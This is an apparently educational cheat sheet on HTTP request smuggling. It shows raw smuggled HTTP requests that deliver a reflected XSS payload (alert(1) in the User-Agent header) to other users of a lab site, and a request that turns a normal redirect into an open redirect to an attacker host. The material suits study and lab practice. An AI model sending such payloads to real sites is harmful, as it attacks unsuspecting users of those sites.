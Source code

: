 ##### Exploit reflected XSS without intervention

If an application is vulnerable to HTTP request smuggling and also contains reflected XSS, you can use a request smuggling attack to hit other users of the application. This approach is superior to normal exploitation of reflected XSS in two ways:

1. It requires no interaction with victim users.
2. It can be used to exploit XSS behavior in parts of the request that cannot be trivially controlled in a normal reflected XSS attack, such as HTTP request headers.

For example, suppose an application has a reflected XSS vulnerability in the User-Agent header.
```
POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 150
Transfer-Encoding: chunked

0

GET /post?postId=5 HTTP/1.1
User-Agent: a"/><script>alert(1)</script>
Content-Type: application/x-www-form-urlencoded
Content-Length: 5

x=1
```
Note - Note that the target user only browses the website intermittently so you may need to repeat this attack a few times before it's successful.
The next user's request will be appended to the smuggled request, and they will receive the reflected XSS payload in the response.

##### Turn a Normal redirect to Open Redirect

Normal Redirect
```
GET /home HTTP/1.1
Host: normal-website.com

HTTP/1.1 301 Moved Permanently
Location: https://normal-website.com/home/
```

Smuggled Normal Redirect to Open redirect to attacker website

```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 54
Transfer-Encoding: chunked

0

GET /home HTTP/1.1
Host: attacker-website.com
Foo: X
```

